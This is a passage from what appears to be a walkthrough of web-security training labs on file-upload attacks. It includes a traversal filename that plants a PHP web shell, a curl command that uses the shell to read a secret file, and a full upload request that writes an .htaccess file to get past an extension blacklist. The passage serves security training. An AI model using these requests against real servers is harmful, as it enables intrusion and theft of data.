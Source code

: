 ```html
wiener
------WebKitFormBoundary375AjJCiwJyeaJ4A
Content-Disposition: form-data; name="csrf"

bU0QUo7DqT54YEEOYYBdjCplgthRMLJC
------WebKitFormBoundary375AjJCiwJyeaJ4A--
```

- Pay attention to this part: `Content-Disposition: form-data; name="avatar"; filename="..%2fshell.php"`
- And in the response you can see: `The file avatars/../shell.php has been uploaded`
- Now let's try to read like this:

```bash
curl https://<YOUR-LAB>.web-security-academy.net/files/avatars/../shell.php?cmd=cat+/home/carlos/secret
```

#### Lab: Web shell upload via extension blacklist bypass
- No we need to bypass blacklist, so we will send upload request to repeater twice this time:

```html
POST /my-account/avatar HTTP/2
Host: <YOUR-LAB>.web-security-academy.net
Cookie: session=Tmy0RH9Yv843nAfcSmze8YGVfYahEDwe
Content-Length: 441
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://<YOUR-LAB>.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjNq5xeAFlx4KjOkk
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://<YOUR-LAB>.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryjNq5xeAFlx4KjOkk
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: image/jpg

AddType application/x-httpd-php .jpg

------WebKitFormBoundaryjNq5xeAFlx4KjOkk
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryjNq5xeAFlx4KjOkk
Content-Disposition: form-data; name="csrf"

qbxRKtCPudYlPLWo5aKPyKH1pd0D5QrL
------WebKitFormBoundaryjNq5xeAFlx4KjOkk--
```
